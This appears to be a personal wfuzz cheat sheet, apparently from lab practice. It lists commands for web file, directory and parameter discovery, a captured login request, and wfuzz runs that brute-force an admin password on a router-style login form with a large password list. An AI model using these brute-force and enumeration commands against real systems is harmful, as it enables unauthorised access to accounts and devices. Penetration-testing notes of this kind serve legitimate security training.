 # Wfuzz

export URL="http://zda:80/FUZZ"


File Discovery

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
```

Directory Discovery

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 403,404 "$URL" 
```

Parameter Discovery - check for files on the webserver that can be used maliciously

```
export URL="http://zda:80/index.php?FUZZ=data"
```

fuzzing parameter values on a target web app
fuzzing the "fpv" parameter with a common wordlist 


```
wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://zda:80/index.php?fpv=FUZZ
```

Fuzz the password in Burp

```
POST /goform/formLogin HTTP/1.1
Host: 192.168.233.45
Content-Length: 64
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.233.45
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.233.45/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HtmlOnly=true&Login=admin&Password=dawg&loginButton=Submit+Login

```



RUn this command

```
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=dawg" http://192.168.233.45/index.asp
```
you can restrict file size of th erequest to remove erronious responses 

```
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=FUZZ" --hh 229 http://192.168.233.45:80/goform/formLogin
```


https://www.phrack.me/tools/2022/07/06/Ffuf-cheatsheet.html

